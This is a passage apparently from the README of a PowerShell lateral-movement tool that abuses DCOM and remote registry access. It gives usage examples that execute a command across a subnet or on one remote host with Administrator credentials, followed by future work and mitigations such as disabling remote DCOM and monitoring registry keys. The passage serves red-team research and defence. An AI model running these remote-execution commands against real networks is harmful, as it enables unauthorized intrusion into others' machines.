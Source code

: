             PS> Invoke-RegisterRemoteSchema -HostList 10.211.55.1/24 -Command cmd /c "calc"

  2. Executes "cmd /c calc" command on 10.211.55.4 remote machine using the current logged-on session using provided credentials

            PS> Invoke-RegisterRemoteSchema -HostList 10.211.55.4 -Command "cmd /c calc" -Username Administrator -Password Aa123456!

## Future work
* Analyze and change firewall rules remotely

## Mitigations and Recommendations
* Disable remote DCOM access.
* Limit Remote-Registry/RPC access.
* Block DCOM protocol using firewall rules
* Monitor changes on the registry in the following locations: SOFTWARE\Microsoft\Ole, SOFTWARE\Classes.
